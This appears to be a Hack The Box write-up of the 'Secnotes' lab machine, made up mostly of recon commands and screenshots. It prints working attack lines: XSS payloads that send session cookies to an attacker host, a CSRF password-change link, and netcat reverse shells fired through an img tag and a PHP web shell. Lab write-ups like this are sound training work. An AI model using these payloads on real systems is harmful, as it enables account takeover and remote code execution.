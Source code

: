 # Secnotes Hack The Box Tips

# ${\color{purple}Initial Recon}\ $

``nmap -sC -sV -oA secnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884008-60c410d5-2f11-4ba0-9ca0-4e923373cffc.png)

``nmap -p- -sV -oA fullsecnotes 10.10.10.97 -T4``

![image](https://user-images.githubusercontent.com/123066149/222884018-91569f20-cedb-46b9-9601-867252fa1fb7.png)

``nmap -p 8808 10.10.10.97 -sC -sV``

![image](https://user-images.githubusercontent.com/123066149/222884064-c39d198f-5031-4133-b41a-ef1cdf261e42.png)

``wfuzz -c -w /opt/seclists/Usernames/Names/names.txt -d"username=FUZZ&password=azeazeazeaze" --hs "No account found with that username." http://10.10.10.97/login.php``

``gobuster dir -u http://10.10.10.97/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,asp,a
spx,txt``

![image](https://user-images.githubusercontent.com/123066149/222884045-90de364f-d65c-40aa-803e-7cef2ac312ef.png)

# ${{\color{purple}Initial Foothold}}\ $

![image](https://user-images.githubusercontent.com/123066149/222884398-3d10dbcb-9038-4dc5-88a3-5a2f0386419e.png)

![image](https://user-images.githubusercontent.com/123066149/222884441-4976e0f1-db29-46d6-a53d-79efe6cbf118.png)

![image](https://user-images.githubusercontent.com/123066149/222884462-7bd86f37-7fc8-4a1e-9c5f-f3048c40eb2e.png)

![image](https://user-images.githubusercontent.com/123066149/222884505-b9b91d4c-2550-41d4-8777-40bfc4c59c08.png)

![image](https://user-images.githubusercontent.com/123066149/222885036-d2586f9f-8521-41c2-8284-60592b21eaa6.png)

![image](https://user-images.githubusercontent.com/123066149/222885060-cdfe8f36-f9ad-4354-b31f-9a3b648ebf32.png)

![image](https://user-images.githubusercontent.com/123066149/222885186-d35f0e8f-99ea-4de2-9793-959ec4bdd345.png)

``azeazeaz<h1>MONKMODE</h1>zeeaze``

``<img src=http://10.10.16.2:800/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.10.16.2'$IFS'2222')>``

``<script> window.open(‘http://10.10.16.2:800/xss.php?a=’+document.cookie) </script>``

``<script> window.open(‘http://votresite.com/xss.php?a=’+document.cookie) </script>``

``<img src=http://10.10.16.2:800/?cookie='+document.cookie)>``

![ssrf](https://user-images.githubusercontent.com/123066149/222884580-628295fc-cbd2-4641-bada-5f93810077c1.PNG)

``<img src=(http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit)>``

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``

![requet](https://user-images.githubusercontent.com/123066149/222884690-fc91298e-7252-4aa9-a2f3-8fef8ac1cf10.PNG)

``http://10.10.16.2:50/tryfortest.txt``                                     
                                        
![image](https://user-images.githubusercontent.com/123066149/222884761-67e09b9e-ee7f-4044-bb1c-2eb4799a02c3.png)
 
``nc -nvlp 50``
                                      
![3](https://user-images.githubusercontent.com/123066149/222884822-c8321bea-a8d3-41e0-9197-9e47b8e207d0.PNG)

``http://10.10.10.97/change_pass.php?password=testtest&confirm_password=testtest&submit=submit``                                        
                                        
![4](https://user-images.githubusercontent.com/123066149/222884881-42e06240-3c2a-4363-a374-c092f925050b.PNG)
                                        
![image](https://user-images.githubusercontent.com/123066149/222884939-5aca6d35-a3a1-44d2-be32-765eb2e3c451.png)                                       
                                        
# ${{\color{purple}Exploitation}}\ $
 
``smbclient -U 'tyler' //10.10.10.97/new-site``                                      
                                        
![image](https://user-images.githubusercontent.com/123066149/222890282-4e9f5ae1-159c-47cc-a0e1-7b94954f5a50.png)
                                    
![image](https://user-images.githubusercontent.com/123066149/222890258-a516a07a-8ed6-4541-ad06-7f976eb74288.png)

``http://10.10.10.97:8808/php_cmd.php?cmd=nc.exe%2010.10.16.2%201234%20-e%20cmd.exe``
                    
![image](https://user-images.githubusercontent.com/123066149/222890342-17ee1e4c-bf9b-4796-9ea5-4256f7e1ead0.png)
 
![image](https://user-images.githubusercontent.com/123066149/222890381-e2f09cd0-4d2b-4535-bf1c-8c565d380b14.png)
                   
# ${{\color{purple}Privilege Escalation}}\ $
                    
![image](https://user-images.githubusercontent.com/123066149/222890424-70d67952-7335-4f72-bb1e-c7449659e818.png)
                    
 ![image](https://user-images.githubusercontent.com/123066149/222891298-07eeb349-09d1-495e-b025-1408516d3f6b.png)                   

# ${{\color{purple}Points of Improvement}}\ $


